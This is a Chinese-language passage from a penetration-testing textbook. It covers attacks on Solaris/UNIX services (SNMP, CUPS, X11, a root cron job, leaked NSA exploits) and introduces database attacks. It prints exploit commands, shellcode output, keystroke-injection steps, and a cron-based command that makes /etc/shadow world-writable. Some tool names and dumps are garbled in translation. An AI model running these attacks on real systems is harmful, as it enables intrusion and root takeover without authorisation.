可以使用带有额外的调试输出的 `ebbshave.v4` ，它将显示在每次漏洞尝试期间向目标 Solaris 系统发送的数据包。这可以让你非常详细地了解其工作原理。使用早先相同的命令，现在提供 `-v` 参数，这将启用详细模式，并在每个请求传输时查看它；此外，我们还可以使用 Wireshark 捕获这些信息。

```
./ebbshave.v4 -V -T 2 -n 32775 -t 192.168.11.220 100230 1
```

一旦暴力破解过程完成，你将看到类似的内容：

```
0x0847d50...0ffe9820:0x0000:0x55f0c97d0 0x0000003 0x73756e00
00000000.......sun <<
0xffe983:00010:0x00000001 0x00000040 0x09ebc33 0xa574b575 >>
>>@.3_GW.. >>
0xffe984:00020:0x0eb5aa7 0xff22e0d 0xff9affff 0x7fffffff
>>..O.... <<
0xffe986:00030:0x05f6c3f 0x0577ef53 0x0104f8d 0x91a9ab91
>>_W...J.. >>
0xffe986:00040:0x054b959ab 0x01b96651 0x00335101 0xd6ff36b0
>>T...f3Q..3.. <<
0xffe987:00050:0x03bdb3359 0x660a75c3 0x09e20bbb 0x74909090
>>.;3Yf.u....t.. <<
0xffe988:00060:0x0ebe6e02 0x0eb0906 0x06a90090 0x19b15109 >>
>>.......J..Q. <<
0xffe989:00070:0x04c89403 0x3341028 0xff33eb0 0xffe2f2d
>>L.I.3$.> <<
<0ffe9ea0:0x0080 0x58d23312 0x571478d 0xab92ab50 0xb008288 >>
X.3.W.....P.B.... 0xe8d6ff0 0xfffffe9 0x6e6962f 0x6873b2f >>
<0ffe9eb0:0x0090: .....nib/k:
<0ffe9ec0:0x00a0 0x00000000 0x09900990 0x09900990 <<
<0ffe9ed0:0x00b0 0x08047d38 0x09900990 0x09900990 0x09900990 <<
..}.
<0ffe9ee0:0x00c0 0x09900990 0x09900990 0x09909ce 0x09900990
<0ffe9ef0:0x00d0 0x09900990 0x09900990 0x09900990 0x09900990
<0ffe9f00:0x00e0 0x09900990 0x09900990 0x09900990 0x09900990
<0ffe9f10:0x00f0 0x09900990 0x09900990 0x09900990
<0ffe9f20:0x0100 0x09900990 0x09900990 0x09900990 <<
<0ffe9f30:0x0110 0x09900990 0x09900990 0x09900990
<0ffe9f40:0x0120 0x09900990 0x09900990 0x09900990 <<
<0ffe9f50:0x0130 0x09900990 0x09900990 0x09900990 <<
<0ffe9f60:0x0140 0x09900990 0x09900990 0x09900990
<0ffe9f70:0x0150 0x09900990 0x09900990 0x09900990 <<
<0ffe9f80:0x0160 0x09900990 0x09900990 0x09900990 <<
<0ffe9f90:0x0170 0x09900990 0x09900990 0x09900990 <<
RPC_TIMEOUT: 希望我们能在主机：<192.168.11.220> 上获得 shell
如果是的话，你通过地址 0x8047d50 成功攻定了 <192.168.11.220> 上的 <100230>
在尝试 <149> 次...
>>> 祝你有愉快 <<<
uid=0 (root) gid=1(other)
```

我们为你强调了几个点，首先是内存地址 `0x08047d38`。当内存损坏漏洞被利用时，它们通常会在另一个程序的内存中插入指针。指针是引用（指向）或直接指示计算机在特定位置执行代码或访问内存。高亮的地址被称为返回地址或有效负载地址（payload address），此类指针用于在利用缓冲区溢出等内存损坏缺陷时，指示计算机下一步跳转到何处执行程序代码。它们通常被写入一个特殊的 CPU 寄存器位置，称为程序计数器或指令指针，用于跟踪计算机应该执行的下一行代码或指令。正是由于这个地址，在每次利用目标系统时被暴力破解，你会看到内存位置在每次攻击运行时都会发生递增。这就是内存损坏的基本原理：通过在远程程序中放置指针来覆盖或损坏内存，指示其从其他地方加载由攻击者提供的程序代码。

例如，应用程序。通常，root 用户账户不会允许这种轻易的访问，因此组织内部的人认为网络是“足够安全的”。对于黑客来说，在系统上以任何用户身份获取访问都可能具有潜在价值，因为他们可以在系统中搜索寻找提升权限的方法。

## 简单网络管理协议 (Simple Network Management Protocol)

简单网络管理协议（SNMP）在 RFC 3411 中描述，顾其实名，旨在允许对网络上的主机进行简单管理。一个管理主机（manager host）可用于查询客户端（在 SNMP 术语中称为受管设备），并从它们获取以分级方式排列的变量列表。这些变量可以是被认为对维护受管设备必要的任何内容，设备通常是网络交换机、路由器、打印机或服务器。变量不仅可以读取，还可以写入，因此可以通过 MIB 表远程更改设备的配置。

该协议的最新版本（第 3 版）支持身份验证和加密，但 SNMP 的第一个版本完全依赖信任，假设内部网络上的所有主机都是友好的邻居。它使用“团体名称”（community names，长度最多七个字符）作为允许或禁止用户查看和修改变量的手段。通常，写入变量需要单独的名称。常用的团体名称有“public”和“private”（public 用于读取，private 用于写入），以及组织名称和其他字符串的变体，在对目标进行一些基础研究后，这些名称并不难以猜测。

从协议的第 2 版本开始，可以使用适当的身份验证，但这并不总是开启的，人们继续依赖团体名称。如果主机上运行着 SNMP 服务且没有使用身份验证，就可能会导致严重问题。可能会覆盖 ARP 表条目，以便将网络流量重定向到内部网络上的不同主机。SNMP 使用 UDP 端口 161 用于管理器和受管设备之间消息的发送和接收。UDP 端口 162 也较少。

名为 OneSixtyOne 的工具，其帮助页面描述为“快速且简单的 SNMP 扫描器”，需要提供如下的团体名称文件：

```
onesixtyone -c <FileWithStringsToGuess> <TargetIP>
```

此命令针对一个运行 SNMP 的服务器执行执行，并提供了一个包含 11 个团体名称的文件，包括 public 和 private。结果如下。public 和 private 均被确认为团体。

```
Scanning 1 hosts, 1 communities
192.168.56.105 [public] Linux fileserver01 3.2.0-486 #1 Debian
3.2.78-1 1686
192.168.56.105 [private] Linux fileserver01 3.2.0-486 #1 Debian
3.2.78-1 1686
```

一旦你确认了团体名称，就可以使用另一个工具（如 SNMPCheck）尝试使用协议第 1 版以及你识别出的团体名称进行连接，如下：

```
snmpcheck -c public -v1 <TargetIP>
```

如果你的 Kali Linux 虚拟机中尚未安装 SNMPCheck，可以通过 `apt install snmpcheck` 进行安装。该工具启动时名称中多了一个连字符。如果你成功运行了该工具，可以看到以下输出。你需要先找到一个有效的目标。

```
snmpcheck v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)
```

[ 尝试使用 SNMPv1 和团体名称 'public' 连接到 192.168.56.105:161

* 系统信息：

```
Host IP address : 192.168.56.105
Hostname : fileserver01
Description : Linux fileserver01 3.2.0-486 #1
Debian 3.2.78-1 1686
Contact : Me <me@example.org>
Location : Sitting on the Dock of the Bay
Uptime snmp : 00:21:43.77
Uptime system : 00:21:34.13
System date : 2019-06-10 10:31:44.0
```

你可以看到关于主机的一些信息，包括安装的操作系统、内核版本和系统运行时间。根据你查询的系统类型及其配置方式，你会收到不同的信息。以下是针对你的 Solaris 10 主机运行 SNMPCheck 的摘录，显示了目标拥有多少内存和存储以及当前状态：

```
Description : ["Real Memory"]
Device id : ["#SNMP:Integer:0000056297e2022be8 @
value=101]
Filesystem type : ["unknown"]
Device unit : ["#SNMP:Integer:0000056297e20003e8 @
value=4096]
Memory size : 1023.56 MB
Memory used : 262.57 MB
Description : ["Swap Space"]
```

## 第 10 章 = UNIX 34

| 属性 | 值 |
| :--- | :--- |
| Device id | ["#SNMP:Integer:0000056297e2022be8 @ value=101] |
| Filesystem type | ["unknown"] |
| Device unit | ["#SNMP:Integer:0000056297e20003e8 @ value=4096] |
| Memory size | 1023.56 MB |
| Memory used | 262.57 MB |

### 通用打印系统 (Common Printing System)

通用打印系统 (CUPS) 是你会在现代 Linux 和 macOS 上找到的一种服务。它设计用于共享打印机。CUPS 在其生命周期内被发现存在漏洞，包括 Shellshock。你可以在官方网站 www.cups.org 了解更多关于 CUPS 的信息。Unix 类系统在设置打印机方面以（或至少）易用性问题闻名。负责配置打印机的人可能花费了大量时间使其正常工作。这意味着更新可能没有被应用。

如果你在主机上发现运行着 CUPS，那么绝对值得调查，因为它可能没有开启或几乎没有安全防护。日常办公人员可能没有意识到打印机像现在的大多数电子设备一样，通常就是计算机。也就是说，它们拥有处理器、内存和存储空间。最棒的是它们具有网络连接。即使是廉价的家用打印机也配备了 Wi-Fi 适配器或以太网连接。现在我们简单查看 CUPS Web 界面（如图10.2 所示），它默认位于 TCP 端口 631。该 Web 应用程序设计用于方便管理打印机。这种发现仍然相当常见；也许人们认为他们正在处理的是打印机，所以不考虑安全。然而这个 Web 界面运行在机器上，我们有许多方法可以获取底层机器的访问。

图 10.2：CUPS 显示了一个可以编辑的打印机配置文件。这是注入命令的绝佳机会！当你面对这种机会时，可以尝试的一种方法是在文件中添加以下行：

# 第10 章：UNIX



## 10.3：编辑打印机配置文件

```
SetEnv PRELOAD /path/to/a/file.so
```

这个基础示例设置了一个环境变量，以包含来自受影响机器的代码。当然，你可能需要将文件放置在主机上的某个地方（例如使用 FTP），以便服务在重启时加载它。其利用方式将类似于第 9 章“文件和文件共享”中介绍的 SAMBCRY 漏洞。你上传一个 `.file` 文件，然后更改配置以加载该文件，从而注入你的代码。

你可能会发现编辑配置文件并不简单；在保存更改之前，系统可能会要求你进行身份验证。如果发生这种情况，尝试基础的用户名/密码对绝对是值得的。记住要查找版本信息，并并在 Searchpilot 和 Metasploit 中搜索 CUPS 漏洞。暴露在互联网上的打印机并利用它们已成为黑客的一项常见活动，以提醒系统所有者危险，正如 Twitter 用户 HackerGiraffe 曾经执行的那样。强烈建议调查打印机和 phenoit 工具集 (www.phenoit.org)，因为打印机是一个被低估的安全问题，可以用于存储文件和运行程序。它们通常完全没有任何保护，极易被破解。

## X Window 系统

X Window 系统（通常称为 X11 或 X）是一个使用位图图形提供图形化用户界面（GUI）的基础框架。它起源于 UNIX，现在是类 UNIX 操作系统中的常见组件。该系统基于你在其他网络服务中常见的客户端-服务器模型，但 X 也是这样设计的，这一点可能并不显而易见。这意味着 X 是从零开始构建的，允许网络上的一个主机与其他主机共享其 GUI，甚至允许远程交互和控制。当你使用 Kali Linux 桌面时，你正在运行的各种程序（如网络浏览器和终端窗口）充当客户端并连接到本地运行的 X 服务器。要使用完全独立的设备（例如你的智能手机）连接到运行在 Kali Linux 上的 X 服务器，并不需要太多的工作。

在企业环境中，网络设置允许用户运行在远程主机上的应用程序，因此正确配置访问控制至关重要。通常情况下，并没有配置好，这为我们提供了机会。你可能会遇到以下行，它摘自本章之前显示的相同基础 Nmap 扫描结果：

```
6000/tcp open X11
```

此行表示 TCP 端口 6000 是开启的，这是 X 的默认端口（在这里被识别为 X11）。你可以运行一个 Nmap 脚本，它将提供有关 X11 服务的某些额外信息：

```
nmap --script=x11-access <TargetIP> -p 6000
```

如果你幸运地发现一个允许访问的 X11 服务，你将在 Nmap 结果中看到类似下面的内容：

```
6000/tcp open X11
|_x11-access: X server access is granted
```

从这里开始，有很多可以尝试的东西。根据其帮助页，`Xwd` 是一个“X Window 系统窗口转储工具”。简单来说，它允许你对具有 X11 访问权限的远程主机进行截图。这是一个你可以执行的示例：

```
xwd -root -screen -silent -display <TargetIP:0> screenshot.xwd
```

存储在 `screenshot.xwd` 文件中的截图如果你想查看，则需要对其进行转换。可以使用以下命令完成：

```
convert screenshot.xwd screenshot.jpg
```

如果你还没有安装 `fe`，请考虑安装它。此工具允许查看终端图像！运行 `fe screenshot.jpg` 将打开转换后的文件（我们在这里没有包含它，因为它是一张空无内容的图像——只是一个空白屏幕）。也许这是远程主机的屏幕保护程序或节能模式？幸运的是，你可以使用 X 向目标机器发送按键信号。以下命令将使用 `xdotool` (`apt install xdotool`) 来执行该操作：


```
DISPLAY=192.168.56.3 xdotool key <Keys>
```

此命令开头的 `DISPLAY=192.168.56.3:0` 确保 `xdotool` 目标是本地运行的远程 X 服务器。图 10.4 显示了使用之前相同命令（然后进行转换）拍摄的截图，其中你可以看到桌面已锁定（用户当前已登录）。如果你对 Ubuntu 虚拟机上的 X 服务器使用这些技术，你将看到所有内容。



图 10.4：锁定的桌面

你可以尝试通过发送更多键并输入正确的密码来解锁显示。你需要将以下命令中的 `<Keys>` 替换为密码的每个字母，每个字母代表单独的按键，而不是字符字符串，这些将发送到 X 服务器。第一个 Enter 用于用于提交密码。

```
DISPLAY=TargetIP:0 xdotool <Keys> Enter
```

一旦登录，你就可以探索桌面。一个典型的桌面可能同时打开几个窗口。使用 `xwin` 可以获取关于这些窗口的多个：

```
DISPLAY=TargetIP:0 xwin -tree
```

我们用于演示的 Solaris 操作系统包含一个允许我们提升权限的文件。请记住，你可以在系统上搜索设置了 SUID SGID 标志的文件，希望以此找到某些可以以 root 有效 ID 运行命令的内容。你也可以搜索世界可写的文件：`find / -perm 002 -type l 2>/dev/null`。以下是在我们的 Solaris 主机运行该搜索时返回的结果提取：

```
/var/adm/spelllist
/var/mail
/var/preserve
/var/run/rpc_door
/var/spool/cron/crontabs/root
/var/spool/pkg
/var/spool/samba
/var/spool/uuccppublic
/var/tmp
/var/krb5/rcache
/var/dt/tmp
/var/dt/dtpower_/schemes
/var/dt/dtpower_/current_scheme
/var/imgq/instances
/usr/oasys/tmp/TERRLOG
/dev/fd0
/etc/hackerhouse/root.sh
/system/contract/process/template
/tmp/.xil-unix
/devices/pseudo/ipf:lookup
```

你在这里看到什么有趣的内容了吗？我们已经提到过将利用 Cron，因此 `/var/spool/cron/crontabs/root` 在你的列表中脱颖而出。我们并不是说这是使用本地文件提升权限的唯一方法，也不是说你会经常遇到这种情况，但它为我们提供了一个示例，说明如何将 UNIX 管理工具的知识与文件权限相结合，执行一些真正的系统管理员意想不到的操作。你可以通过 `ls -al` 和文件名来确认一个文件是否具有你认为的权限。这里有一个例子：

```
ls -al /var/spool/cron/crontabs/root
```

这将产生以下输出，你可以清楚地看到文件的权限：

| -rwxrwxrwx 1 root root 520 Feb 21 2017 /var/spool/cron/crontabs/root |

让我们看看这个文件的内容，它恰好是一个 crontab 文件，属于 root 用户——任何人都可以读取、写入和执行它。

```
$ cat /var/spool/cron/crontabs/root
#ident (@root)    1.21    04/03/23 SMI"
# The root crontab should be used to perform accounting data collection.
#

10 3 * * /usr/sbin/logadam
15 3 * * 0 /usr/lib/fs/nfsfsind
30 3 * * [ -x /usr/lib/gss/gscreed_clean ] && /usr/lib/gss/
gsscreed_clean
# The rtc command is run to adjust the real time clock if and when
# daylight savings time changes.
1 2 * * [-x /usr/sbin/rtc] && /usr/sbin/rtc -c > /dev/null 2>&1
10 3 * * /usr/lib/krbs/kprcop_script slave_kdcs
* * * * /etc/hackerhouse/rootrun.sh
```

```
#!/usr/bin/bash
# root scheduled tasks
## added by intern
# jpr 10/11/1
```

这个文件代表了可能丰富的员工或实习生留下的东西，可能不是那种职位为“恐龙”的人留下的。文件的开头是 shebang 和 `!`，它告诉操作系统当用户尝试执行该文本文件时，应该将该文件交给 shebang 之后提供的 shell 解释器。在这种情况下，shell 解释器是 bash，位于 `/usr/bin/bash`。文本文件实际上无法被执行，尽管我们通过更改文件权限并像运行二进制文件一样运行它们使其“可执行”。`root.sh` 脚本只包含注释，但由于此文件是由 Cron 以 root 身份运行的，我们添加的任何命令都将由 root 用户执行。

你可以使用像 `echo chmod 777 /etc/shadow >> /etc/hackerhouse/root.sh` 这样的命令将 `chmod 777 /etc/shadow` 命令追加到此类文件中。这比在陌生的主机上使用文本编辑器要容易得多。精通 Vi（Vim 文本编辑器的前身）将确保你可能有一个可靠的编辑器可用。然而，该命令中的双大于符号（`>>`）很重要。单个大于符号（`>`）意味着“将输出重定向到给定文件，替换文件内容”。像这样两个大于符号符号在一起意味着“重定向输出并追加”。

> Vi 是 UNIX 和类 UNIX 系统中一种流行的文本编辑器，作者认为它在每个方面都优于 Emacs（另一种使用的文本编辑器）；然而，这是我们的偏好，还有许多其他替代方案，例如 Edacs 和 Nano 等。许多新黑客和计算机学生在最初启动 Vi 时经常对如何使用它感到困惑，并发现自己无法退出程序。Vi 需要一个“转义序列”来访问命令界面，以发送复制、粘贴、保存和退出等命令。要退出 Vi，请按键盘上的 Escape 键，这将允许你向终端底部发送命令。现在输入 `:q` 将退出应用程序，因为光标将移动到行首。。感叹号 `!` 用于在发生更改时强制执行命令。可以使用其他有用命令来代替 `:`，例如 `y` 用于剪切（复制）当前行，`:p` 用于粘贴，`:w` 用于保存，`:d` 用于删除行。建议使用 `vi man` 来更好地了解该程序并熟练掌握其用法，这在许多系统中默认是允许的。

有了这个新命令，我们只需要等待 Cron 运行 `root.sh` 即可，它已经在每分钟运行一次了。我们将知道任务已经运行，因为 `/etc/shadow` 文件将变为任何用户可读、写、执行（尽管执行实际上并不必要）。如果你有一个可以写入的 shadow 文件，你可以将你已知的哈希用户（hash user）的密码覆盖到 root 用户的哈希值。你可以使用该密码登录 root 用户！

在这种情况下，建议对原始 root 用户的密码哈希值进行备份。与 NSA 的工具不同，这种方法几乎没有回余地，但它是提升权限的一种方法。

# 第10章 » UNIX 353

```
$ AT=1 /exp/dt/appconfig.x
chmod 755 /var/dt/appconfig/appmanager
chown 0:0 /var/dt/appconfig/appmanager
/it -a 1487610861 -m 1487607707 -c 1487607707 /var/dt/appconfig/manager
chmod 755 /var/dt/appconfig
chown 0:0 /var/dt/appconfig
/it -a 1487610861 -c 1487603154 -c 1487603154 /var/dt/appconfig
chmod 755 /usr/lib/local
chown 0:2 /usr/lib/local
/it -a 1487681174 -c 1487602963 -c 1487602963 /usr/lib/local
changePermissions: /var/dt/appconfig/appmanager/... : No such file or directory
MakeDirectory: /var/dt/appconfig/appmanager/: File exists succ...
commands will be executed using /bin/sh
job 156258575.a at Mon Jul 8 12:37:55 2019
# id
uid=0(root) gid=0(other)
```

如果你想进一步了解此攻击所利用的漏洞，你可以在以下 URL 中由 Hacker House 通过对原始 NSA 漏洞进行逆向工程后制作的简单概念证明（PoC）中找到技术细节：[https://github.com/hackerhouse-opensource/exploits/blob/master/dtapppager-poc.sh](

## 总结

在本章中，我们回顾了一个历史悠久的 UNIX 操作系统 Solaris 10，以及它的一些缺陷和特性。我们学习了 NSA（美国国家安全局）开发的工具类型——这些工具设计设计用于攻击特定的操作系统，我们还查看了 Telnet 协议和 SSH，以及曾经常见但绝不应再次使用的旧版 R-services。

在本章中我们再次查看了 RPC，特别是 ONC RPC 和 XDR，并了解了 NSA 如何利用运行有漏洞 RPC 程序的系统。这种攻击已知被用于针对电信公司。

我们介绍了 SNMP、CUPS 和 X 窗口系统（通常称为 X11 或简称 X），并向你展示了你应该警惕的关键弱点。X 是任何现代 UNIX 类操作系统的 GUI（图形用户界面）的基础，它曾是恶意黑客的热门目标，他们能够截屏、捕获击键，并通过你自己的摄像头监控你。

在本章中，我们通过两种不同的方式演示了权限提升。首先，我们发现 Cron 正在以 root 权限执行一个文件，由于文件权限配置不当，我们可以恰好编辑该文件。这让我们有效地在目标主机上获得了 root 权限，因为我们可以添加自己的命令，然后这些命令将以 root 身份执行。

第二种攻击使用了 NSA 的 EXTREMEPARK 工具，揭示了该机构用于获取 Solaris 主机 root 权限的另一种完全不同的方法。

你可以将我们在本章中看到的的 NSA 工具视为那个时代 UNIX 黑客攻击的“圣杯”。当这些工具泄露时，各地的黑客都欢呼鼓舞，因为这些工具太强大了。这些是黑客多年来一直拼命想要开发的工具——如果你可以称它们为访问 Solaris 系统的一组“万能钥匙”。

记住，你在这里学到的所有概念、协议和教训都可以应用于其他的 UNIX 类系统，而不仅仅是遗留或专有的 UNIX 系统。

# 第 11 章 

## 数据库

你很可能会在客户的内部网络遇到至少一个运行中的数据库管理系统（DBMS）实例。DBMS 是管理数据库的软件，允许其他计算机程序或用户与数据库进行交互。可能有多个主机用于此目的，并且可能为组织运营的不同元素提供不同类型的数据库。

通常，内部主机上的数据库将作为 Web 应用程序和身份验证的后端数据存储器。它们通常持有敏感信息，例如用户名、密码哈希值。

在存储空间和计算能力可以获取的时代，关系型数据库旨在通过减少冗余来减少存储容量并提高查询速度，因此使用了键。流行的关系型数据库系统（RDBMS），根据 [db-engines.com/en/ranking](https://db-engines.com/en/ranking)，包括：

- Oracle Database
- MySQL
- Microsoft SQL
- PostgreSQL
- IBM Db2
- Microsoft Azure
- SQLite
- MariaDB

你还会发现亚马逊和谷歌的新产品，以及功能较少的数据库，如 SQLite。你记得第 4 章“开源情报收集”中使用的 SQLite。它是一种流行的轻量级便携式 RDBMS，也广泛应用于移动应用程序和设备。RDBMS 使用称为结构化查询语言（SQL）的专用语言来查询和处理数据库包含的数据。我们在本章后面的部分为你提供 SQL 使用的基础。

RDBMS 使用数据库架构来描述数据库的结构。它包含了关于表、表中的列、表之间的关系等信息。存在没有直接访问数据库软件的情况下提取这些元数据的方法，例如在执行 SQL 注入攻击时。一旦你学习了架构，它将允许你从数据库本身获取潜在的敏感数据，因为你能够轻松地定位表中攻击者感兴趣的信息。

数据库的权限。这些权限很容易被配置错误，因此你应该密切关注滥用配置不当数据库账户的机会。在暴力攻击中寻找并使用不同的用户名和密码是获取数据库初始访问权限的一种完全可行的方法。然而，这只是数据库攻击复杂性的开始。

# 非关系型数据库

数据库的另一种类型是 NoSQL 数据库。NoSQL 指的是这些不是关系型数据库。NoSQL 或也称为非关系型数据库具有多种不同的数据存储方法，例如基于文档的存储。例如，可以使用 XML、YAML（代表 YAML ain't markup language，与 XML 相似但在语法上更简单）和 JSON 文档来用于数据存储。然而，不应将基于文档的存储与平文件数据库（flat-file databases）混淆，因为它们在本质上是完全不同的。例如，一个 XML 文档可以包含许多标签，标签内部嵌套着更多标签，然后数据存储在标签对中。这使得此类文件比简单的 CSV 或制表符分隔的文件具活性。有时，NoSQL 数据库会使用主机的主内存来存储数据，而不是磁盘或固态硬盘（SSD），这可以实现极快的查询。对于 NoSQL，几乎不需要担心容量和搜索优化，因为现代系统可以轻松处理大量内存。

许多 NoSQL 数据库一个可能意外的特性是，当你遇到它们时，它们通常会预设认证。因此，你也可以将 NoSQL 视为“无认证”（NoAuth）数据库。NoSQL 也可以表示“不仅是 SQL”，因为某些 NoSQL 数据库将支持替代的 SQL 类查询作为访问其数据的手段。


一些常见的 NoSQL 数据库管理系统（DBMS）包括：

- MongoDB
- Redis
- Apache Cassandra (cassandra.apache.org)
- Oracle NoSQL
- Amazon DynamoDB (aws.amazon.com/dynamodb)

# 结构查询语言

SQL，读作 "sequel"，是关系型数据库中查询和操作数据的常用语言。它可以用于在数据库中创建或定义数据结构、管理数据库用户权限、删除和插入记录，甚至在数据上定义并执行函数。

SQL 是美国国家标准协会（ANSI）和国际标准组织（ISO）的标准。SQL 引入于 20 世纪 80 年代后期并流行起来。直到今天，几乎你可能遇到的任何关系型数据库仍在使用 SQL，尽管你会在不同实现之间看到变体。

SQL 并不是连接关系型数据库的唯一语言，但它是最常用的。强烈建议你学习 SQL 的基础知识，因为这将帮助你完成后续示例，而且由于其在数据世界中的普及，它是现代黑客活动的绝对要求。

我们在此处提供一个基础的 SQL 入门指南。尽管如此，熟能生巧，我们建议你探索数据库并向其填充记录，如果你还不熟悉此类活动，那么从命令行使用 SQL 对它们进行查询将是一次无价的体验。我们提供的入门指南可以大大扩展，我们建议你尽可能地熟悉数据库中的数据操作。作为一名黑客，你将面对对数据库的有限访问或向某种类型的后端数据库进行注入的能力。了解如何导航此类系统将为你整个职业生涯中带来许多丰硕的成果。

在为客户执行渗透测试时，你应该寻找那些可以注入 SQL 语句的地方，以导致 DBMS 的行为超出其设计参数。这种类型的——SQL 注入（SQL injection）是广为人知的，并被经常用于导致数据库将其数据泄露给未经授权的用户。它通常通过脆弱的 Web 应用程序进行，该程序会从数据库查询信息。这是我们在第 12 章“Web 应用程序”中将涵盖的攻击。几乎没有黑客经验的人通过运行 `SQLmap` 等能够自动利用 SQL 注入漏洞的工具，也可以影响大型组织。虽然作为渗透测试员你可以使用此类工具生存，但理解 SQL 的基础知识以及如何使用它将极大地提高你利用漏洞的能力。

# 用户定义函数

许多 DBMS 提供预定义函数，类似于编程语言的 API，允许用户以某些方式操纵数据。像编程语言一样，你也可以定义自己的函数来供数据库使用。这些被称为用户定义函数（UDF）。如果你能够获取数据库访问权限，你可能可以定义自己的函数来帮助你提升权限或逃逸到底层操作系统。我们将演示你如何向服务器上传一个共享对象，然后使用它创建一个在特定条件下允许你提升权限的 UDF。

# 数据库黑客工具箱

你会发现，如果你打算攻击数据库，在 Kali Linux 机器安装各种数据库命令行客户端是必要的。你也可以使用一些图形用户界面（GUI）客户端，如 SQL，如果你目标是数据库，你可能想要安装 Microsoft SQL Management Studio 等工具。按照规定，你可能希望为更常见的系统（如 PostgreSQL 和 MySQL）安装几个数据库客户端。你也可以使用多功能 SQL 工具，但这些工具在书中未被探讨。你还应该利用常用的黑客工具，如 `Nmap`、`Netcat`、`Searchplot` 和 `Metasploit`。

你还会发现建立自己的数据库来练习和学习每个 DBMS 的细微差别很有用。在为客户工作时，拥有一个安装了与客户匹配的 DBMS 的虚拟机（VM）非常方便，当你构建了复杂的查询且不确定它们为什么不起作用时。在本地调试数据库查询中的错误比在获得有限访问权限的远程服务器上调试要容易得多。如果你正在测试一个真实数据的生产环境，请先在自己的数据库上运行任何可能影响数据库的漏洞！我们的书籍提供了几个预配置的数据库供你攻击。

# 常见的数据库利用

当面对数据库时，这里是一些常见的攻击方法或步骤：

1. 找到访问数据库及其持有的数据的方法。
2. 枚举数据库的结构。
3. 访问数据库并搜索任何有用信息。
4. 审查数据库的任何权限或安全控制。
5. 如果你还没有，尝试获取数据库管理员（DBA）权限。
6. 尝试访问底层操作系统及其文件系统。
7. 尝试利用 UDF 运行你自己的代码。
8. 尝试逃逸数据库并攻击操作系统；提升权限。

攻击操作系统和提升权限对于你现在来说是类似的。但是对于数据库，有一些障碍需要克服——你实际上需要跳出数据库进入系统。这通常可以通过 UDF 和存储过程来实现。存储过程的工作方式与 UDF 类似，但由于它们已经修改数据库内部的数据，因此可能更有效。它们通常通过特殊的 SQL 语句调用：`CALL`。根据你获得的权限，经常可以使用 UDF 在底层操作系统上运行代码，并利用存储过程进行可能的权限提升。

# 数据库服务器端口扫描

以下是对运行多个数据库服务的漏洞 VM 进行高级 Nmap 端口扫描的提取：

```
PORT STATE SERVICE VERSION
3306/tcp open mysql MySQL 5.0.51a-24+lenny2
5433/tcp open postgresql PostgreSQL DB 9.1.2 - 9.1.3
6379/tcp open Redis key-value store
27017/tcp open mongodb MongoDB 2.0.2
28017/tcp open http http console
```

你可能会在同一台服务器上看到许多类型的数据库运行，尽管某些组合是一起运行的。由于防火墙和网络分段，在为客户工作时，你可能无法直接扫描数据库，但至少会有一个在后台运行。在这种情况下，你需要使用其他方法（而不是简单的扫描主机）来获取有关软件的有用信息。我们已经涵盖了这些方法的一些（例如使用 Web 代理或通过开源情报（OSINT）收集信息），但我们将在下一章通过 SQL 注入进一步探讨。如果你被指派扫描内部网络上的主机，你几乎会看到某种类型的数据库服务。由于

# 第 11 章 = 数据库

数据库通常用于工资单处理等任务；它们还针对恶意内部人员的内部访问进行了加固处理。任何负责任的公司都会采取措施保护包含数据库的主机——即使是防止其自身的员工。你可能会发现数据库居住在自己的虚拟局域网（VLAN）中，或者位于防火墙之后，仅允许有限的主机和服务器访问。

你将发现随后的实验环境中同时运行着 MySQL 和 PostgreSQL 进程以及其他的 NoSQL 服务。

## MySQL

MySQL (www.mysql.com) 是一种流行的开源关系型数据库管理系统（RDBMS）。它由 Oracle 所有，提供商业版和免费版本。默认情况下，运行在服务器上的 MySQL 数据库将监听 TCP 端口 3306 以接受传入连接。像许多软件一样，它可能会在欢迎横幅（banner）中泄露信息，且旧版本可能包含已知漏洞。MySQL 有它自己的 root 用户账户，这不应与 UNIX 类系统上的 root 用户混淆。设置（默认）的 MySQL 实例允许访问 MySQL root 用户（无需密码），这是一个非常普遍的问题。攻破 root 意味着拥有对整个数据库的完全访问权限。检查这种可能性是非常重要的，并且应该始终执行。MySQL 数据库可能允许用户使用内置函数（如 `LOAD_FILE`）向主机操作系统读写文件，诸如 `SELECT * FROM Table INTO DUMPFILE` 的查询是另一种写入文件的函数。MySQL 广泛用于在线服务，它是你会遇到的最常见的数据库软件类型之一。

### MariaDB

MariaDB (mariadb.org) 是由 MySQL 的原始开发者创建的开源 RDBMS。事实上，它是 MySQL 的一个分支（以 MySQL 5.1.38 的源代码作为 MariaDB 的起点），并驱动着维基百科等许多其他流行服务。与 MySQL 不同，MariaDB 并不由某个商业实体拥有，这意味着它可能无限保持开源。由于这两个 RDBMS 具有共同的血缘，在 MySQL 中发现的许多漏洞也被发现会影响 MariaDB。

## 探索 MySQL 数据库

我们将让你的生活比你预期的要简单一点。我们将提供运行书籍实验环境的 MySQL 数据库密码。在现实中，你将寻找这个密码、通过暴力破解获取，或者完全绕过身份验证。但现在，我们想解释基础知识，让你习惯像真正的系统管理员一样操作 MySQL 数据库。这是关于 SQL 的快速入门。诚然，这样的密码可能被留在网页的源代码中、作为注释，或在某处的文本文件中。意图可能是移除它，但应用程序通常会从开发阶段快速推向生产阶段，并带有未解决的错误和遗漏。所以，仅此一次，我们将假设你通过其他手段获得了密码。

如果你用 Nmap 扫描区块的 TCP 端口 3306 并启用 `-A` 选项，你将看到一些有用信息，如下：

```
3306/tcp open mysql syn-ack MySQL 5.0.51a-24+lenny2
| mysql-info:
| Protocol: 10
